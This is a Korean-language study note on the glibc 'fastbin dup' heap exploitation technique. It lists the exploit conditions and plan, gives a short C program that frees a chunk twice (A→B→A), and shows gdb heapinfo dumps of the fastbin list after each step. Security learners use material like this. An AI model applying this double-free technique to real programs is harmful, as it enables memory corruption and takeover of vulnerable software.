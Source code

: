 # **fastbin-dup**

## **Exploit Condition**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk 3개 생성한다.
1. 첫 번째 Fast Chunk 해제한다.
1. 두 번째 Fast Chunk 해제한다.
1. 첫 번째 Fast Chunk 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 **Fake Chunk** 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

Fake Chunk의 조건

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Exploit Flow**

```c
#include <stdio.h>
#include <stdlib.h>
 
int main()
{
        int *buf1 = malloc(112);
        int *buf2 = malloc(112);
        int *buf3 = malloc(112);
 
        free(buf1);
        free(buf2);
        free(buf1);
 
        int *buf4 = malloc(112);
        int *buf5 = malloc(112);
        int *buf6 = malloc(112);
}
```

3번째 Free 다음 fastbin 구조 

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

첫 번째 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

두 번째 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

세 번째 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

**fastbinsY의 변화**  
0x602000 → 0x602080 → 0x602000 → 0x602080  

fastbins는 Free Chunk를 Single list로 관리한다. 동일한 크기의 Fast Chunk 여러개가 해제되면, Chunk의 fd 영역을 이용해 관리한다.

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup>  
<https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c>  
<https://bpsecblog.wordpress.com/2016/08/31/translate_fastbin/>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>

